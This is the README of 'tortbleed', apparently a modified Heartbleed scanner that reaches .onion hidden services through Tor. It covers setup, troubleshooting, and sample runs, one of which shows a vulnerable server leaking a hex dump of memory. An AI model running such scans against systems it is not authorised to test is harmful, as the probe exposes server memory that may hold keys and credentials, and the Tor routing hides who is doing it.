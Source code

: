 tortbleed
=========

Modification of Samiux's Heartbleed Reload scanner to allow direct scanning of .onion addresses.

==========System Requirements==========

- SocksiPy ( Available here: https://github.com/mikedougherty/SocksiPy ).

- urllib2 ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/urllib2.py ).

- socket ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/socket.py ).

- A local tor server configured to allow you to connect through it to endpoints.  You do not
  necessarily need to configure it as a relay, so long as your IP is configured in a
  'SocksPolicy accept' rule.  Being configured as a relay will not have a negative impact,
  though, should you have that set-up.

- Python 2.7, as this was the only version I tested this script against.  Please feel free to
  modify it to work with whatever version you might be using other than 2.7.

==========Setup & Usage==========

You must do the following, or this scanner just wont work:

1. Ensure you have installed and setup Tor on a system accessible to you to ensure you can
   bounce through it via this script.

2. Edit your copy of torwrapper.py to suit your Tor instance ip / hostname and port to access,
   on lines 11 & 12.

3. Copy the edited torwrapper.py file to your Python site-packages directory.

4. Ensure you have installed the SocksiPy, socket, and urllib2 site-packages properly.

Once those steps are completed, you can then run the scanner.  The usage output is below, along
with an example with output:

$ ./tortbleed.py <snipped for privacy>.onion
Starting Tor Daemon & Connecting to Tor Network...
Connected to Tor Relay. My ip is 188.138.9.49 (atlantic480.us.unmetered.com)
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 2483
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request... Unexpected EOF receiving record header - server closed connection
No heartbeat response received, server likely not vulnerable

$ ./tortbleed.py 192.168.1.43
Connecting to non-onion address...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 58
 ... received message: type = 22, ver = 0302, length = 961
 ... received message: type = 22, ver = 0302, length = 525
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
 Received heartbeat response:
 0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
 0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
 0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
 0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
 0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
 0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
 0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
 0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
 0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
 0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
 00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
 00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
 00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
 00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
 --snipped output remaining output for readme brevity--

WARNING: server returned more data than it should - server is vulnerable!

==========Troubleshooting==========

You may get tracebacks because I haven't included any error handling.
The two most common I found during testing are explained below.

1 - socks.Socks5Error: ((2, 'connection not allowed by ruleset'),)
This occurs when the Tor Relay you are connected to for this particular scan doesn't allow
outgoing connections to the .onion you are attempting to scan.  Most often, attempting another
run of the same command will connect you to another Relay and allow this to go through.  If,
however, you hit the same error, another few attempts may be required.

2 - socks.Socks5Error: ((91, 'request rejected or failed'),)
This happens when connection to the .onion endpoint fails to successfully complete through the
Tor Relay you are connected through.  This can be for a number of reasons, and may be worth
trying once more.  Same result usually means problems with the .onion server (either not having
the port you're attempting to scan on enabled, or other connection-related issues).

Good luck!

Mike <michael@prattlecorp.com>

